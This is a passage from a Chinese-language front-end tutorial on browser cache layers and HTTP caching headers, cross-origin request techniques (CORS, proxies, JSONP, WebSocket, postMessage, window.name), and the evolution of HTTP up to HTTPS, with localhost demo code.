几乎所有的网络请求资源都会被浏览器自动加入到 memory cache 中。但是也正因为数量很大但是浏览器占用的内存不能无限扩大这样两个因素，memory cache 注定只能是个“短期存储”。常规情况下，浏览器的 TAB 关闭后该次浏览的 memory cache 便告失效 (为了给其他 TAB 腾出位置)。而如果极端情况下 (例如一个页面的缓存就占用了超级多的内存)，那可能在 TAB 没关闭之前，排在前面的缓存就已经失效了。 刚才提过，几乎所有的请求资源 都能进入 memory cache，这里细分一下主要有两块：
- preloader。
- 浏览器通常会准备两个页面解析器parser，一个(main parser)用于正常的页面解析，而另一个(preloader)则试图去文档中搜寻更多需要加载的资源，但这里的资源通常仅限于外链的js、stylesheet、image；不包括audio、video等。并且动态插入页面的资源无效。但细节方面却值得注意：
- 比如关于preloader的触发时机，并非与解析页面同时开始，而通常是在加载某个head中的外链脚本阻塞了main parser的情况下才启动；
- 也不是所有浏览器的preloader会把图片列为预加载的资源，可能它认为图片加载过于耗费带宽而不把它列为预加载资源之列；
- preloader也并非最优，在某些浏览器中它会阻塞body的解析。因为有的浏览器将页面文档拆分为head和body两部分进行解析，在head没有解析完之前，body不会被解析。一旦在解析head的过程中触发了preloader，这无疑会导致head的解析时间过长。
被 preloader 请求来的资源就会被放入 memory cache 中，供之后的解析执行操作使用。
- preload 。这些显式指定的预加载资源，也会被放入 memory cache 中。
memory cache 机制保证了一个页面中如果有两个相同的请求 (例如两个 src 相同的 ，两个 href 相同的 )都实际只会被请求最多一次，避免浪费。
不过在匹配缓存时，除了匹配完全相同的 URL 之外，还会比对他们的类型，CORS 中的域名规则等。因此一个作为脚本 (script) 类型被缓存的资源是不能用在图片 (image) 类型的请求中的，即便他们 src 相等。
在从 memory cache 获取缓存内容时，浏览器会忽视例如 max-age=0, no-cache 等头部配置。例如页面上存在几个相同 src 的图片，即便它们可能被设置为不缓存，但依然会从 memory cache 中读取。这是因为 memory cache 只是短期使用，大部分情况生命周期只有一次浏览而已。而 max-age=0 在语义上普遍被解读为“不要在下次浏览时使用”，所以和 memory cache 并不冲突。
但如果站长是真心不想让一个资源进入缓存，就连短期也不行，那就需要使用 no-store。存在这个头部配置的话，即便是 memory cache 也不会存储，自然也不会从中读取了。(后面的第二个示例有关于这点的体现)
disk cache
disk cache 也叫 HTTP cache，顾名思义是存储在硬盘上的缓存，因此它是持久存储的，是实际存在于文件系统中的。而且它允许相同的资源在跨会话，甚至跨站点的情况下使用，例如两个站点都使用了同一张图片。
disk cache 会严格根据 HTTP 头信息中的各类字段来判定哪些资源可以缓存，哪些资源不可以缓存；哪些资源是仍然可用的，哪些资源是过时需要重新请求的。当命中缓存之后，浏览器会从硬盘中读取资源，虽然比起从内存中读取慢了一些，但比起网络请求还是快了不少的。绝大部分的缓存都来自 disk cache。
凡是持久性存储都会面临容量增长的问题，disk cache 也不例外。在浏览器自动清理时，会有神秘的算法去把“最老的”或者“最可能过时的”资源删除，因此是一个一个删除的。不过每个浏览器识别“最老的”和“最可能过时的”资源的算法不尽相同，可能也是它们差异性的体现。
Service Worker
上述的缓存策略以及缓存/读取/失效的动作都是由浏览器内部判断进行的，我们只能设置响应头的某些字段来告诉浏览器，而不能自己操作。但 Service Worker 的出现，给予了我们另外一种更加灵活，更加直接的操作方式。
Service Worker 能够操作的缓存是有别于浏览器内部的 memory cache 或者 disk cache 的。我们可以从 Chrome 的 F12 中，Application -> Cache Storage 找到它。除了位置不同之外，这个缓存是永久性的，即关闭 TAB 或者浏览器，下次打开依然还在(而 memory cache 不是)。有两种情况会导致这个缓存中的资源被清除：手动调用 API cache.delete(resource) 或者容量超过限制，被浏览器全部清空。
如果 Service Worker 没能命中缓存，一般情况会使用 fetch() 方法继续获取资源。这时候，浏览器就去 memory cache 或者 disk cache 进行下一次找缓存的工作了。注意：经过 Service Worker 的 fetch() 方法获取的资源，即便它并没有命中 Service Worker 缓存，甚至实际走了网络请求，也会标注为 from ServiceWorker。
总结
- 根据 Service Worker 中的 handler 决定是否存入 Cache Storage (额外的缓存位置)。
- 根据 HTTP 头部的相关字段(Cache-control, Pragma 等)决定是否存入 disk cache
- memory cache 保存一份资源 的引用，以备下次使用。
按失效策略分类
memory cache 是浏览器为了加快读取缓存速度而进行的自身的优化行为，不受开发者控制，也不受 HTTP 协议头的约束，算是一个黑盒。Service Worker 是由开发者编写的额外的脚本，且缓存位置独立，出现也较晚，使用还不算太广泛。所以我们平时最为熟悉的其实是 disk cache，也叫 HTTP cache (因为不像 memory cache，它遵守 HTTP 协议头中的字段)。
强缓存
- 强制缓存的含义是，当客户端请求后，会先访问缓存数据库看缓存是否存在。如果存在则直接返回；不存在则请求真的服务器，响应后再写入缓存。
- 强制缓存直接减少请求数，是提升最大的缓存策略。
- 可以造成强制缓存的字段是 Cache-control 和 Expires。
Expires
这是一个响应头。这是 HTTP 1.0 的字段，表示缓存到期时间，是一个绝对的时间 (当前时间+缓存时间)，如
Expires: Thu, 10 Nov 2017 08:45:11 GMT
在响应消息头中，设置这个字段之后，就可以告诉浏览器，在未过期之前不需要再次请求。
两个缺点：
- 由于是绝对时间，用户可能会将客户端本地的时间进行修改，而导致浏览器判断缓存失效，重新请求该资源。此外，即使不考虑自身修改，时差或者误差等因素也可能造成客户端与服务端的时间不一致，致使缓存失效。
- 写法太复杂了。表示时间的字符串多个空格，少个字母，都会导致非法属性从而设置失效。
Cache-control
已知 Expires 的缺点之后，在 HTTP/1.1 中，增加了一个字段 Cache-control，该字段表示资源缓存的最大有效时间，在该时间内，客户端不需要向服务器发送请求
这两者的区别就是前者是绝对时间，而后者是相对时间。如下：
Cache-control: max-age=2592000
Cache-control 中指令设计具体时间的，单位都是秒。
面列举一些 Cache-control 字段常用的指令：
- max-age：即最大有效时间，在上面的例子中我们可以看到
- must-revalidate：如果超过了 max-age 的时间，浏览器必须向服务器发送请求，验证资源是否还有效。
- no-cache：虽然字面意思是“不要缓存”，但实际上还是要求客户端缓存内容的，只是缓存需要在验证之后使用。
- no-store: 真正意义上的“不要缓存”。所有内容都不走缓存，包括强制和对比。
- public：所有的内容都可以被缓存 (包括客户端和代理服务器， 如 CDN)
- private：所有的内容只有客户端才可以缓存，代理服务器不能缓存。默认值
这些值可以混合使用，例如 Cache-control:public, max-age=2592000。在混合使用时，它们的优先级如下图：

-
这里有一个疑问：max-age=0 和 no-cache 等价吗？
- 从规范的字面意思来说，max-age 到期是 应该(SHOULD) 重新验证，而 no-cache 是 必须(MUST) 重新验证。但实际情况以浏览器实现为准，大部分情况他们俩的行为还是一致的。（如果是 max-age=0, must-revalidate 就和 no-cache 等价了）
-
在 HTTP/1.1 之前，如果想使用 no-cache，通常是使用 Pragma 字段，如 Pragma: no-cache(这也是 Pragma 字段唯一的取值)。但是这个字段只是浏览器约定俗成的实现，并没有确切规范，因此缺乏可靠性。它应该只作为一个兼容字段出现，在当前的网络环境下其实用处已经很小。
-
自从 HTTP/1.1 开始，Expires 逐渐被 Cache-control 取代。Cache-control 是一个相对时间，即使客户端时间发生改变，相对时间也不会随之改变，这样可以保持服务器和客户端的时间一致性。而且 Cache-control 的可配置性比较强大。
-
Cache-control 的优先级高于 Expires，为了兼容 HTTP/1.0 和 HTTP/1.1，实际项目中两个字段我们都会设置。
-
总结
- http 1.0 的时候想使用 Cache-control: no-cache，只能使用 Pragma: no-cache。现在已经不用 Pragma 了
- Cache-control 优先级比 Expires 高，而且 Expires 的值是绝对时间，包含年月日星期等部分，太复杂，而且用户可以修改系统时间造成 Expires 失效。Cache-control 中的时间都是相对时间，相对于请求的时间，单位为秒。所以 Expires 也不用了。
协商缓存（对比缓存）
当强制缓存失效(超过规定时间)时，就需要使用对比缓存，由服务器决定缓存内容是否失效。
-
浏览器先请求缓存数据库，返回一个缓存标识。之后浏览器拿这个标识和服务器通讯。如果缓存未失效，则返回 HTTP 状态码 304 Not Modified 表示继续使用，于是客户端继续使用缓存；如果失效，则返回新的数据和缓存规则，浏览器响应数据后，再把规则写入到缓存数据库。
-
对比缓存在请求数上和没有缓存是一致的，但如果是 304 Not Modified 的话，返回的仅仅是一个状态码而已，并没有实际的文件内容，因此 在响应体体积上的节省是它的优化点。通过减少响应体体积，来缩短网络传输时间。所以和强制缓存相比提升幅度较小，但总比没有缓存好。
-
对比缓存是可以和强制缓存一起使用的，作为在强制缓存失效后的一种后备方案。实际项目中他们也的确经常一同出现。
对比缓存有 2 组字段(不是两个)：
Last-Modified (响应头) & If-Modified-Since（请求头）
- 服务器通过 Last-Modified 字段告知客户端，资源最后一次被修改的时间，例如
Last-Modified: Mon, 10 Nov 2018 09:10:11 GMT
- 浏览器将这个值和内容一起记录在缓存数据库中。
- 下一次请求相同资源时时，浏览器从自己的缓存中找出“不确定是否过期的”缓存。因此在请求头中将上次的 Last-Modified 的值写入到请求头的 If-Modified-Since 字段
- 服务器会将 If-Modified-Since 的值与资源的最后修改时间进行对比。如果相等，则表示未修改，响应 304 Not Modified；反之，则表示修改了，响应 200 状态码，并返回新的数据数据和新的 Last-Modified。
- 缺点
- 如果资源更新的速度是秒以下单位，那么 Last-Modified 是感知不到的，因为它的时间单位最低是秒。
- 一些文件也许会周期性的更改，但是内容并不改变(仅仅改变的修改时间)，这个时候，我们并不希望客户端认为这个文件被修改了，而重新去请求
ETag（响应头）& If-None-Match（请求头）
为了解决上述问题，出现了一组新的字段 ETag 和 If-None-Match
ETag 存储的是文件的特殊标识(一般都是 hash 生成的)，服务器存储着文件的 ETag 字段。之后的流程和 Last-Modified 一致，只是 Last-Modified 字段和它所表示的更新时间改变成了 ETag 字段和它所表示的文件 hash，把 If-Modified-Since 变成了 If-None-Match。服务器同样进行比较，命中返回 304, 不命中返回新资源和 200。
ETag 的优先级高于 Last-Modified。
缓存总结
当浏览器要请求资源时：
- 调用 Service Worker 的 fetch 事件响应
- 查看 memory cache
- 查看 disk cache。这里又细分：
- 如果有强制缓存且未失效，则使用强制缓存，不请求服务器。这时的状态码全部是 200
- 如果有强制缓存但已失效，使用协商缓存，比较后确定 304 还是 200
- 发送网络请求，等待网络响应
- 把响应内容存入 disk cache (如果 HTTP 头信息配置可以存的话)
- 把响应内容的引用存入 memory cache (无视 HTTP 头信息的配置)
- 把响应内容存入 Service Worker 的 Cache Storage (如果 Service Worker 的脚本调用了 cache.put())
浏览器的行为
所谓浏览器的行为，指的就是用户在浏览器如何操作时，会触发怎样的缓存策略。主要有 3 种：
- 打开网页，地址栏输入地址： 查找 disk cache 中是否有匹配。如有则使用；如没有则发送网络请求。
- 普通刷新 (F5)：因为 TAB 并没有关闭，因此 memory cache 是可用的，会被优先使用(如果匹配的话)。其次才是 disk cache。
- 强制刷新 (Ctrl + F5)：浏览器不使用缓存，因此发送的请求头部均带有 Cache-control: no-cache(为了兼容，还带了 Pragma: no-cache)。服务器直接返回 200 和最新内容。
应用
- 不常变化的资源
Cache-Control: max-age=31536000
通常在处理这类资源资源时，给它们的 Cache-Control 配置一个很大的 max-age=31536000 (一年)，这样浏览器之后请求相同的 URL 会命中强制缓存。而为了解决更新的问题，就需要在文件名(或者路径)中添加 hash， 版本号等动态字符，之后更改动态字符，达到更改引用 URL 的目的，从而让之前的强制缓存失效 (其实并未立即失效，只是不再使用了而已)。
在线提供的类库 (如 jquery-3.3.1.min.js, lodash.min.js 等) 均采用这个模式。如果配置中还增加 public 的话，CDN 也可以缓存起来，效果拔群。
这个模式的一个变体是在引用 URL 后面添加参数 (例如 ?v=xxx 或者 ?_=xxx)，这样就不必在文件名或者路径中包含动态参数，满足某些完美主义者的喜好。在项目每次构建时，更新额外的参数 (例如设置为构建时的当前时间)，则能保证每次构建后总能让浏览器请求最新的内容。
- 经常变化的资源
Cache-Control: no-cache
这里的资源不单单指静态资源，也可能是网页资源，例如博客文章。这类资源的特点是：URL 不能变化，但内容可以(且经常)变化。我们可以设置 Cache-Control: no-cache 来迫使浏览器每次请求都必须找服务器验证资源是否有效。
既然提到了验证，就必须 ETag 或者 Last-Modified 出场。这些字段都会由专门处理静态资源的常用类库(例如 koa-static)自动添加，无需开发者过多关心。
也正如上文中提到协商缓存那样，这种模式下，节省的并不是请求数，而是请求体的大小。所以它的优化效果不如模式 1 来的显著。
- 非常危险的模式 1 和 2 的结合 （反例）
Cache-Control: max-age=600, must-revalidate
不知道是否有开发者从模式 1 和 2 获得一些启发：模式 2 中，设置了 no-cache，相当于 max-age=0, must-revalidate。我的应用时效性没有那么强，但又不想做过于长久的强制缓存，我能不能配置例如 max-age=600, must-revalidate 这样折中的设置呢？
表面上看这很美好：资源可以缓存 10 分钟，10 分钟内读取缓存，10 分钟后和服务器进行一次验证，集两种模式之大成，但实际线上暗存风险。因为上面提过，浏览器的缓存有自动清理机制，开发者并不能控制。
举个例子：当我们有 3 种资源： index.html, index.js, index.css。我们对这 3 者进行上述配置之后，假设在某次访问时，index.js 已经被缓存清理而不存在，但 index.html, index.css 仍然存在于缓存中。这时候浏览器会向服务器请求新的 index.js，然后配上老的 index.html, index.css 展现给用户。这其中的风险显而易见：不同版本的资源组合在一起，报错是极有可能的结局。
除了自动清理引发问题，不同资源的请求时间不同也能导致问题。例如 A 页面请求的是 A.js 和 all.css，而 B 页面是 B.js 和 all.css。如果我们以 A -> B 的顺序访问页面，势必导致 all.css 的缓存时间早于 B.js。那么以后访问 B 页面就同样存在资源版本失配的隐患。
ETag 计算
- Nginx 官方默认的 ETag 计算方式是为
文件最后修改时间16进制-文件长度16进制。例："59e72c84-2404" - Express 框架使用了 serve-static 中间件来配置缓存方案，其中，使用了一个叫 ETag 的 npm 包来实现 ETag 计算。从其源码可以看出，有两种计算方式：
- 方式一：使用文件大小和修改时间
function stattag (stat) { var mtime = stat.mtime.getTime().toString(16) var size = stat.size.toString(16) return '"' + size + '-' + mtime + '"' }- 方式二：使用文件内容的 hash 值和内容长度
function entitytag (entity) { if (entity.length === 0) { // fast-path empty return '"0-2jmj7l5rSw0yVb/vlWAYkK/YBwk"' } // compute hash of entity var hash = crypto .createHash('sha1') .update(entity, 'utf8') .digest('base64') .substring(0, 27) // compute length of entity var len = typeof entity === 'string' ? Buffer.byteLength(entity, 'utf8') : entity.length return '"' + len.toString(16) + '-' + hash + '"' }
跨域
什么是跨域
同源策略是一种约定，它是浏览器最核心也最基本的安全功能，如果缺少了同源策略，浏览器很容易受到 XSS、CSRF 等攻击。所谓同源是指 "协议 + 域名 + 端口" 如果不相同，那么脚本就不能访问其他源的资源。
同源策略限制内容有：
- Cookie、LocalStorage、IndexedDB 等存储性内容
- DOM 节点
- AJAX 请求发送后，结果被浏览器拦截了
以下资源可以跨域引入：
<script src="..."></script>标签嵌入跨域脚本。语法错误信息只能被同源脚本中捕捉到。<link rel="stylesheet" href="...">标签嵌入CSS。由于CSS的松散的语法规则，CSS的跨域需要一个设置正确的 HTTP 头部 Content-Type 。不同浏览器有不同的限制： IE, Firefox, Chrome, Safari (跳至CVE-2010-0051)部分 和 Opera。- 通过
<img>展示的图片。支持的图片格式包括PNG,JPEG,GIF,BMP,SVG,... - 通过
<video>和<audio>播放的多媒体资源。 - 通过
<object>、<embed>和<applet>嵌入的插件。 - 通过
@font-face引入的字体。一些浏览器允许跨域字体（ cross-origin fonts），一些需要同源字体（same-origin fonts）。 - 通过
<iframe>载入的任何资源。站点可以使用 X-Frame-Options 消息头来阻止这种形式的跨域交互。
注意：
- 如果是协议和端口造成的跨域问题前端无法解决。
- 跨域并不是请求发不出去，请求能发出去，服务端能收到请求并正常返回结果，只是结果被浏览器拦截了
- 通过表单的方式可以发起跨域请求，为什么 Ajax 就不会? Ajax 可以获取响应，浏览器认为这不安全，所以拦截了响应。但是表单并不会获取新的内容，所以可以发起跨域请求。
方案
CORS（Cross-Origin Resource Sharing 跨域资源共享）
- CORS 需要浏览器和后端同时支持。IE 8 和 9 需要通过 XDomainRequest 来实现。
- 浏览器会自动进行 CORS 通信，实现 CORS 通信的关键是后端。只要后端实现了 CORS，就实现了跨域。
- 服务端设置
Access-Control-Allow-Origin就可以开启 CORS。 该属性表示哪些域名可以访问资源，如果设置通配符则表示所有网站都可以访问资源。 - 虽然设置 CORS 和前端没什么关系，但是通过这种方式解决跨域问题的话，会在发送请求时出现两种情况，分别为简单请求和复杂请求。
- 简单请求
只要同时满足以下两大条件，就属于简单请求
-
条件1：使用下列方法之一：
- GET
- HEAD
- POST
-
条件2：Content-Type 的值仅限于下列三者之一：
- text/plain
- multipart/form-data
- application/x-www-form-urlencoded
- 复杂请求
不符合以上条件的请求就肯定是复杂请求了。 复杂请求的 CORS 请求，会在正式通信之前，增加一次 HTTP 查询请求，称为预检请求, 该请求是 option 方法的，通过该请求来知道服务端是否允许跨域请求。
我们用 PUT 向后台请求时，属于复杂请求，后台需做如下配置：
// 允许哪个方法访问我
res.setHeader('Access-Control-Allow-Methods', 'PUT')
// 预检的存活时间
res.setHeader('Access-Control-Max-Age', 6)
// OPTIONS请求不做任何处理
if (req.method === 'OPTIONS') {
res.end()
}
// 定义后台返回的内容
app.put('/getData', function(req, res) {
console.log(req.headers)
res.end('我不爱你')
})
接下来我们看下一个完整复杂请求的例子，并且介绍下CORS请求相关的字段
// index.html
let xhr = new XMLHttpRequest()
document.cookie = 'name=xiamen' // cookie不能跨域
xhr.withCredentials = true // 前端设置是否带cookie
xhr.open('PUT', 'http://localhost:4000/getData', true)
xhr.setRequestHeader('name', 'xiamen')
xhr.onreadystatechange = function() {
if (xhr.readyState === 4) {
if ((xhr.status >= 200 && xhr.status < 300) || xhr.status === 304) {
console.log(xhr.response)
//得到响应头，后台需设置Access-Control-Expose-Headers
console.log(xhr.getResponseHeader('name'))
}
}
}
xhr.send()
//server1.js
let express = require('express');
let app = express();
app.use(express.static(__dirname));
app.listen(3000);
//server2.js
let express = require('express')
let app = express()
let whitList = ['http://localhost:3000'] //设置白名单
app.use(function(req, res, next) {
let origin = req.headers.origin
if (whitList.includes(origin)) {
// 设置哪个源可以访问我
res.setHeader('Access-Control-Allow-Origin', origin)
// 允许携带哪个头访问我
res.setHeader('Access-Control-Allow-Headers', 'name')
// 允许哪个方法访问我
res.setHeader('Access-Control-Allow-Methods', 'PUT')
// 允许携带cookie
res.setHeader('Access-Control-Allow-Credentials', true)
// 预检的存活时间
res.setHeader('Access-Control-Max-Age', 6)
// 允许返回的头
res.setHeader('Access-Control-Expose-Headers', 'name')
if (req.method === 'OPTIONS') {
res.end() // OPTIONS请求不做任何处理
}
}
next()
})
app.put('/getData', function(req, res) {
console.log(req.headers)
res.setHeader('name', 'jw') //返回一个响应头，后台需设置
res.end('我不爱你')
})
app.get('/getData', function(req, res) {
console.log(req.headers)
res.end('我不爱你')
})
app.use(express.static(__dirname))
app.listen(4000)
上述代码由 http://localhost:3000/index.html 向 http://localhost:4000/ 跨域请求，正如我们上面所说的，后端是实现 CORS 通信的关键。
-
响应头
- Access-Control-Allow-Origin 允许跨域请求的域名，可以使用通配符。当 Access-Control-Allow-Credentials: true 的时候，请求将携带 cookie 身份凭证，这时 Access-Control-Allow-Origin 不能为通配符，否则请求将失败，必须使用具体的域名。
- Access-Control-Allow-Credentials 是否允许跨域请求携带 cookie 身份凭证。
- Access-Control-Max-Age （复杂请求，需要预检）预检请求的有效时间，单位秒。
- Access-Control-Allow-Methods （复杂请求，需要预检）服务器允许客户端使用哪些方法发起请求。
- Access-Control-Allow-Headers （复杂请求，需要预检）服务器允许客户端携带哪些 headers。
-
请求头
- Origin 表明预检请求或实际请求的源（协议 + 主机名 + 端口号）。
- Access-Control-Request-Method （预检请求）将实际请求所使用的 HTTP 方法告诉服务器
- Access-Control-Request-Headers （预检请求）将实际请求所携带的 headers 告诉服务器
添加 nodejs 服务作为中间层代理
服务器向服务器请求就无需遵循同源策略。
Nginx 反向代理
- 实现原理类似于 Node 中间件代理，需要你搭建一个中转 nginx 服务器，用于转发请求。
- 使用 nginx 反向代理实现跨域，是最简单的跨域方式。只需要修改 nginx 的配置即可解决跨域问题，支持所有浏览器，支持 session，不需要修改任何代码，并且不会影响服务器性能。
- 实现思路：通过 nginx 配置一个代理服务器（域名与 domain1 相同，端口不同）做跳板机，反向代理访问 domain2 接口，并且可以顺便修改 cookie 中 domain 信息，方便当前域 cookie 写入，实现跨域登录。
先下载 nginx，然后将 nginx 目录下的 nginx.conf 修改如下:
// proxy服务器
server {
listen 81;
server_name www.domain1.com;
location / {
proxy_pass http://www.domain2.com:8080; #反向代理
proxy_cookie_domain www.domain2.com www.domain1.com; #修改cookie里域名
index index.html index.htm;
# 当用webpack-dev-server等中间件代理接口访问nignx时，此时无浏览器参与，故没有同源限制，下面的跨域配置可不启用
add_header Access-Control-Allow-Origin http://www.domain1.com; #当前端只跨域不带cookie时，可为*
add_header Access-Control-Allow-Credentials true;
}
}
最后通过命令行nginx -s reload启动nginx
// index.html
var xhr = new XMLHttpRequest();
// 前端开关：浏览器是否读写cookie
xhr.withCredentials = true;
// 访问nginx中的代理服务器
xhr.open('get', 'http://www.domain1.com:81/?user=admin', true);
xhr.send();
// server.js
var http = require('http');
var server = http.createServer();
var qs = require('querystring');
server.on('request', function(req, res) {
var params = qs.parse(req.url.substring(2));
// 向前台写cookie
res.writeHead(200, {
'Set-Cookie': 'l=a123456;Path=/;Domain=www.domain2.com;HttpOnly' // HttpOnly:脚本无法读取
});
res.write(JSON.stringify(params));
res.end();
});
server.listen('8080');
console.log('Server is running at port 8080...');
JSONP
- 利用
<script>标签没有跨域限制的漏洞，网页可以得到从其他来源动态产生的 JSON 数据。JSONP 请求一定需要对方的接口做支持才可以。 - JSONP 优点是简单兼容性好，可用于解决主流浏览器的跨域数据访问的问题。缺点是仅支持 get 方法具有局限性，不安全可能会遭受 XSS 攻击。
- JSONP 的实现流程
- 声明一个回调函数，其函数名当做参数值，要传递给跨域请求数据的服务器，函数形参为要获取目标数据。
- 创建一个
<script>标签，把那个跨域的 API 数据接口地址，赋值给 script 的 src，还要在这个地址中向服务器传递该函数名（可以通过问号传参:?callback=show）。 - 服务器接收到请求后，需要进行特殊的处理：把传递进来的函数名和它需要给你的数据拼接成一个字符串,例如：传递进去的函数名是 show，它准备好的数据是 show('xxx')。
- 最后服务器把准备的数据通过 HTTP 协议返回给客户端，客户端再调用执行之前声明的回调函数（show），对返回的数据进行操作。
// index.html
function jsonp({ url, params, callback }) {
return new Promise((resolve, reject) => {
let script = document.createElement('script')
window[callback] = function(data) {
resolve(data)
document.body.removeChild(script)
}
params = { ...params, callback } // wd=b&callback=show
let arrs = []
for (let key in params) {
arrs.push(`${key}=${params[key]}`)
}
script.src = `${url}?${arrs.join('&')}`
document.body.appendChild(script)
})
}
jsonp({
url: 'http://localhost:3000/say',
params: { wd: 'Iloveyou' },
callback: 'show'
}).then(data => {
console.log(data)
})
// server.js
let express = require('express')
let app = express()
app.get('/say', function(req, res) {
let { wd, callback } = req.query
console.log(wd) // Iloveyou
console.log(callback) // show
res.end(`${callback}('xxx')`)
})
app.listen(3000)
websocket
Websocket 是 HTML5 的一个持久化的协议，它实现了浏览器与服务器的全双工通信，同时也是跨域的一种解决方案。WebSocket 和 HTTP 都是应用层协议，都基于 TCP 协议。但是 WebSocket 是一种双向通信协议，在建立连接之后，WebSocket 的 server 与 client 都能主动向对方发送或接收数据。同时，WebSocket 在建立连接时需要借助 HTTP 协议，连接建立好了之后 client 与 server 之间的双向通信就与 HTTP 无关了。
原生 WebSocket API使用起来不太方便，我们使用 Socket.io，它很好地封装了 webSocket 接口，提供了更简单、灵活的接口，也对不支持 webSocket 的浏览器提供了向下兼容。
我们先来看个例子：本地文件 socket.html 向 localhost:3000 发生数据和接受数据。
// socket.html
<script>
let socket = new WebSocket('ws://localhost:3000');
socket.onopen = function () {
socket.send('xxx');//向服务器发送数据
}
socket.onmessage = function (e) {
console.log(e.data);//接收服务器返回的数据
}
</script>
// server.js
let express = require('express');
let app = express();
let WebSocket = require('ws');
let wss = new WebSocket.Server({port:3000});
wss.on('connection',function(ws) {
ws.on('message', function (data) {
console.log(data);
ws.send('我不爱你')
});
})
postMessage
postMessage 是 HTML5 XMLHttpRequest Level 2 中的 API，且是为数不多可以跨域操作的 window 属性之一，它可用于解决以下方面的问题：
- 页面和其打开的新窗口的数据传递
- 多窗口之间消息传递
- 页面与嵌套的iframe消息传递
- 上面三个场景的跨域数据传递
postMessage 方法允许来自不同源的脚本采用异步方式进行有限的通信，可以实现跨文本档、多窗口、跨域消息传递。
otherWindow.postMessage(message, targetOrigin, [transfer]);
- message: 将要发送到其他 window 的数据。
- targetOrigin: 通过窗口的 origin 属性来指定哪些窗口能接收到消息事件，其值可以是字符串 "*"（通配符）或者一个 URI。在发送消息的时候，如果目标窗口的协议、主机地址或端口这三者的任意一项不匹配 targetOrigin 提供的值，那么消息就不会被发送；只有三者完全匹配，消息才会被发送。
- transfer(可选)：是一串和 message 同时传递的 Transferable 对象. 这些对象的所有权将被转移给消息的接收方，而发送一方将不再保有所有权。
// a.html
<iframe src="http://localhost:4000/b.html" frameborder="0" id="frame" onload="load()"></iframe> //等它加载完触发一个事件
//内嵌在http://localhost:3000/a.html
<script>
function load() {
let frame = document.getElementById('frame')
frame.contentWindow.postMessage('xxx', 'http://localhost:4000') //发送数据
window.onmessage = function(e) { //接受返回数据
console.log(e.data) // ooo
}
}
</script>
// b.html
window.onmessage = function(e) {
console.log(e.data) //xxx
e.source.postMessage('ooo', e.origin)
}
- 通过 window.open 打开新的页面，并且返回新页面的 window 对象，这时候也可以在当前页面使用这个 window 对象调用 postMessage。
window.name + iframe
window.name 属性的独特之处：name 值在不同的页面（甚至不同域名）加载后依旧存在，并且可以支持非常长的 name 值（2MB）。
// test1.html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>test1</title>
</head>
<body>
<h2>test1页面</h2>
<iframe src="http://192.168.1.10/php_demo/test2.html" frameborder="1"></iframe>
<script>
var ifr = document.querySelector('iframe')
ifr.style.display = 'none'
var flag = 0;
ifr.onload = function () {
console.log('跨域获取数据', ifr.contentWindow.name);
ifr.contentWindow.close();
}
</script>
</body>
// test2.html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>test2</title>
</head>
<body>
<h2>test2页面</h2>
<script>
var person = {
name: 'wayne zhu',
age: 22,
school: 'xjtu'
}
window.name = JSON.stringify(person)
</script>
</body>
</html>
总结：通过 iframe 的 src 属性由外域转向本地域，跨域数据即由 iframe 的 window.name 从外域传递到本地域。这个就巧妙地绕过了浏览器的跨域访问限制，但同时它又是安全操作。
http 历史
带宽和延迟
- 带宽：但是现在网络基础建设已经使得带宽得到极大的提升，我们不再会担心由带宽而影响网速，那么就只剩下延迟了。
- 延迟
- 队头阻塞（head of line blocking）一列的第一个数据包（队头）受阻而导致整列数据包受阻。
- DNS 查询 将域名解析为 IP 的这个系统就是 DNS。这个通常可以利用 DNS 缓存结果来达到减少这个时间的目的。
- 建立连接 HTTP 是基于 TCP 协议的，浏览器最快也要在第三次握手时才能捎带 HTTP 请求报文，达到真正的建立连接，但是这些连接无法复用会导致每次请求都经历三次握手和慢启动。
http 0.9 http 1.0 和 http 1.1
http 0.9
HTTP/0.9 只支持一种方法 GET，请求只有一行。
GET /hello.html
响应也是非常简单的，只包含 html 文档本身。
<html>
Hello world
</html>
当 TCP 建立连接之后，服务器向客户端返回 html 格式的字符串。发送完毕后，就关闭 TCP 连接。由于没有状态码和错误代码，如果服务器处理的时候发生错误，只会传回一个特殊的包含问题描述信息的 html 文件。这就是最早的 HTTP/0.9 版本。
http 1.0
相比 HTTP/0.9，HTTP/1.0 主要有如下特性：
- 请求与响应支持 HTTP 头，增加了状态码，响应对象的一开始是一个响应状态行
- 协议版本信息需要随着请求一起发送，支持 HEAD，POST 方法
- 支持传输 html 文件以外其他类型的内容
一个典型的 HTTP/1.0 的请求像这样：
GET /hello.html HTTP/1.0
User-Agent:NCSA_Mosaic/2.0(Windows3.1)
200 OK
Date: Tue, 15 Nov 1996 08:12:31 GMT
Server: CERN/3.0 libwww/2.17
Content-Type: text/html
<html>
页面
</html>
http 1.1
在 HTTP/1.0 发布几个月后，HTTP/1.1 就发布了。HTTP/1.1 更多的是作为对 HTTP/1.0 的完善，在 HTTP/1.1 中，主要具有如下改进：
- 默认启用长连接，connection: keep-alive。也就是三次握手后不会立即断开 TCP 连接，可以继续在连接上发后续的请求。
- 增加 pipelining。如果没有管道（pipelining），浏览器必须等待发送第二个资源请求，直到第一个请求的响应被完全接收（使用 Content-Length）。这会为每个请求增加一个往返时间（RTT）延迟，这对Web性能不利。有了管道，浏览器不必等待第一个请求响应数据，现在可以背靠背地发送请求。
服务器必须按照接收请求的顺序发送对这些 pipelining 请求的响应。换一种说法：管道解决了请求的队头阻塞，而不是响应的队头阻塞。 - 引入更多缓存机制 Cache-control Last-Modified & If-Modified-Since ETag & If-None-Match
- 新增了 OPTIONS PUT DELETE TRACE CONNECT 方法
缺点：
- 传输内容是明文，不够安全
- header 内容过大，每次请求 header 变化不大，造成浪费
- keep-alive 给服务端带来性能压力
- 还是没有解决队头阻塞问题

https
https 其实就是将 http 的数据包再通过 SSL/TLS 加密后传输，为了解决 http 1.1 明文传输不安全的问题。
SSL（Secure Sockets Layer）安全套接层和 TLS（Transport Layer Security）传输层安全协议其实是一套东西。
网景公司在1994年提出 HTTPS 协议时，使用的是 SSL 进行加密。后来 IETF（Internet Engineering Task Force）互联网工程任务组将 SSL 进一步标准化，于 1999 年公布第一版 TLS 协议文件 TLS 1.0。目前最新版的 TLS 协议是 TLS 1.3，于 2018 年公布。
https 加密解密流程：
- 用户在浏览器发起 HTTPS 请求，默认使用服务端的 443 端口进行连接；
- HTTPS 需要使用一套 CA 数字证书，证书内会附带一个公钥 Public，而与之对应的私钥 Private 保留在服务端不公开；
- 服务端收到请求，返回配置好的包含公钥 Public 的证书给客户端；
